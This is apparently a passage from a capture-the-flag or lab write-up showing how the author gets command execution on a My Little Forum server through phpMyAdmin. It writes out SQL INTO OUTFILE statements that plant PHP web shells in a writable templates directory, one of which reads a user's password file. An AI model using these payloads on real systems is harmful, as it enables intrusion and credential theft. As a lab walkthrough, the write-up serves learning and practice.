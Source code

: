 And since the service is running in apache with php, which means we can access php files in the browser and it will execute the file to return the web content. With that said, the strategy is to execute something using the browser, and we can specify the things we want to execute with the `SELECT INTO OUTFILE` on phpmyadmin.

For a proof of concept, we can try to execute this sql statement
```sql=
SELECT "<?php $output = shell_exec('whoami'); echo $output  ?>" INTO OUTFILE "/var/www/forum/whoami.php;"
```

We should be able to head to `ipaddr/forum/whoami.php` and see the output of the command `whoami`. But it turns out I dont have permissions to write to that folder.
![image](https://hackmd.io/_uploads/SJqSl1KVp.png)

I went to the [source](https://github.com/My-Little-Forum/mylittleforum) code for the forum page they are using and found out there are other directories like `backups, config, images...` and turns out I can access the `templates_c` directory
![image](https://hackmd.io/_uploads/S1QYW1YET.png)

So i changed my script to write in the images directory instead
```sql=
SELECT "<?php $output = shell_exec('whoami'); echo $output  ?>" INTO OUTFILE "/var/www/forum/templates_c/whoami.php";
```

and I got the result when running the php file.
![image](https://hackmd.io/_uploads/Bk8EMJF4a.png)

After some searching around with this command, I am able to get the password to the lmezard machine 
```sql=
SELECT "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output  ?>" INTO OUTFILE "/var/www/forum/templates_c/lookatme.php";
```

![image](https://hackmd.io/_uploads/rJIoM1FEp.png)

**Refer to part 1 for the rest of the steps**